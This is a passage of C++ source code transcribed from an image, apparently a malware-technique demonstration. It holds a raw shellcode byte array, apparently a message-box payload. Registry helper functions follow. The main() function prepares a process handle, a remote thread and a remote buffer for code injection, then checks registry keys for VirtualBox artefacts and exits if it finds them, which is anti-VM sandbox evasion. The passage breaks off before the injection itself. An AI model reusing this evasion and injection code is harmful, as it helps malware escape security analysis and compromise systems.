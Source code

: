 ```cpp
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";

unsigned int my_payload_len = sizeof(my_payload);

int reg_key_ex(HKEY hKeyRoot, char* lpSubKey) {
  HKEY hKey = nullptr;
  LONG ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, 
  KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
    RegCloseKey(hKey);
    return TRUE;
  }
  return FALSE;
}

int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, 
char* regVal, char* compare) {
  HKEY hKey = nullptr;
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, 
  &hKey);
  if (ret == ERROR_SUCCESS) {
    RegQueryValueExA(hKey, regVal, NULL, NULL, 
    (LPBYTE)value, &size);
    if (ret == ERROR_SUCCESS) {
      if (strcmp(value, compare) == 0) {
        return TRUE;
      }
    }
  }
  return FALSE;
}

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  if (reg_key_ex(HKEY_LOCAL_MACHINE, 
  "HARDWARE\\ACPI\\FADT\\VBOX__")) {
    printf("VirtualBox VM reg path value detected :(\n");
    return -2;
  }

  if (reg_key_compare(HKEY_LOCAL_MACHINE, 
  "SYSTEM\\CurrentControlSet\\Control\\SystemInformation",
  "SystemProductName", "VirtualBox")) {
    printf("VirtualBox VM reg key value detected :(\n");
    return -2;
```